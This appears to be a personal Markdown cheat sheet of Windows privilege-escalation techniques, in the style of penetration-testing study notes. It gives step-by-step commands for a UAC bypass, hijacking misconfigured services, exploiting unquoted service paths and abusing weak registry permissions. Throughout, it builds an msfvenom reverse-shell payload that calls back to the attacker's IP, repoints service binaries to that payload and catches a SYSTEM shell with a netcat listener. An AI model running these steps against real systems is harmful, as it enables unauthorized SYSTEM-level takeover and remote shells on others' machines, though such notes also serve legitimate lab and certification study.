  2. https://github.com/CsEnox/EventViewer-UACBypass
 3. `Invoke-EventViewer cmd.exe` or `Invoke-EventViewer "C:\full\path\to\reverse.exe`
 ## Service Misconfiguration
- `sc.exe qc <name>` Query the configuration of a service
- `sc.exe query <name>`Query the current status of a service
- `sc.exe config <name> <option>= <value>`Modify a configuration option of a service
`- net start/stop <name>`#Start/Stop a service
### Insecure Service Permissions (Modifileable service)
0. If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.
1. Things to look for (e.g. SERVICE_STOP, SERVICE_START).
2. Things to look for (e.g. SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS)
3. Things to look out for ***Rabit Hole*** If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!
4. `.\winPeas.exe quiet servicesinfo` query for only services
5. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>`  confirm with accesscheck that we can change_CONFIG and start service.
6.  `sc qc <SERVICENAME>`  query the service configuration and look at start type, binary path name, dependencies
7.  `sc query <SERVICENAME>` check the current status of the service.
8.  `sc config <SERVICENAME> binpath="\"C:\PrivEsc\reverse.exe\""` set the binary path to the location of the revershell payload. 
9.  Start a netcat listener and `net start <SERVICENAME>`

 ### Unquoted Service Path
 0. `.\winPeas.exe quiet servicesinfo` Look for No quotes and Space detected in winpeas
 1. `Get-UnquotedService` (PowerUp) or `wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`\ 
 2. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>` check permission if we can restart the service.
 3. ` .\accesschk.exe /accepteula` then: `.\accesschk.exe -ucqv [SERVICENAME]` if the above command does not work
 4. Use accesschk.exe to check for write permissions in each binary path (if BUILTIN/user can write, we should write it in that path)
  ``` 
  > .\accesschk.exe /accepteula -uwdq C:\
  > .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
  > .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
  ```
 6.`msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=LISTENINGPORT -f exe  -o Program.exe` (Name payload accordingly to the path writable)\
 7. `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"` copy file
 8. start a netcat listenr, and `net start <SERVICENAME>` or `shutdown /f /r /t 0`
 
 ### Weak Registery Permissions (Modify service registry)
1. Same winPeas command as above.
2. `.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<SERVICENAME>` check if its writable i.e (NT AUTHORITY\Interactive)
3. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>` check if we can restart the service
4.  `reg query HKLM\System\CurrentControlSet\Services\<SERVICENAME>` Check the current value and see bin path.
5.  `reg add HKLM\SYSTEM\CurrentControlSet\services\<SERVICENAME> /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f` change bin path
6.  start a netcat listener and `net start <SERVICENAME>`
